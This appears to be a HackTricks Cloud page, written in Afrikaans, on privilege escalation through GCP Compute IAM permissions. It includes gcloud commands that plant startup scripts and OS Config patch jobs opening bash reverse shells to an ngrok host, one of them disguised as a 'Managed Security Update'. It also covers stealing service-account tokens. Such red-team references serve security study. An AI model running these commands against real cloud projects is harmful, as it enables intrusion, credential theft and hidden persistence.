 # GCP - Compute Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die privilege escalation aanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos om nuwe gebruikers en SSH sleutels by te voeg), dit **nodig is dat jy `actAs` toestemmings oor die SA wat aan die instansie geheg is, het**, selfs al is die SA reeds geheg!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy **wysig** die **metadata** inligting van 'n **instansie** en die **geautoriseerde sleutels van 'n gebruiker** verander, of **skep** 'n **nuwe gebruiker met sudo** toestemmings. Daarom sal jy in staat wees om via SSH in enige VM instansie in te log en die GCP Service Account waarmee die Instansie loop, te steel.\
Beperkings:

* Let daarop dat GCP Service Accounts wat in VM instansies loop, standaard 'n **baie beperkte omvang** het.
* Jy sal **in staat moet wees om die SSH** bediener te kontak om in te log.

Vir meer inligting oor hoe om hierdie toestemming te benut, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur nuwe opstart-skrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee die **dieselfde voorregte as die vorige toestemming** maar oor 'n spesifieke instansie in plaas van 'n hele projek. Die **dieselfde ontploffings en beperkings soos vir die vorige afdeling geld**.

### `compute.instances.setIamPolicy`

Hierdie tipe toestemming sal jou toelaat om **jouself 'n rol met die vorige toestemmings toe te ken** en voorregte te verhoog deur dit te misbruik.

### **`compute.instances.osLogin`**

As **OSLogin geaktiveer is in die instansie**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy **sal nie root voorregte** binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As **OSLogin geaktiveer is in die instansie**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy sal **root voorregte** binne die instansie hê.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om **'n virtuele masjien met 'n toegewyde Diensrekening te skep en die token** van die diensrekening te steel deur toegang tot die metadata om voorregte te verhoog.

Die ontploffingskryscript vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch werk of ontplooiing**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

Let daarop dat jy op die oomblik **nie `actAs` toestemming** oor die SA wat aan die instansie gekoppel is, nodig het nie.

As jy dit handmatig wil ontplof, sal jy of 'n [**patch werk**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **of** [**ontplooiing**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** moet skep.**\
Vir 'n patch werk, voer die volgende uit:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Om 'n patch-implementering te ontplooi:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Die hulpmiddel [patchy](https://github.com/rek7/patchy) kon in die verlede gebruik word om hierdie miskonfigurasie te benut (maar dit werk nou nie).

**'n Aanvaller kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra toestemmings** vir die rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra toestemmings** vir 'n skyf snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra toestemmings** vir 'n skyf.

### Bypass Access Scopes

Volg hierdie skakel om 'n paar [**idees te vind om toegangskope te omseil**](../).

### Plaaslike Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
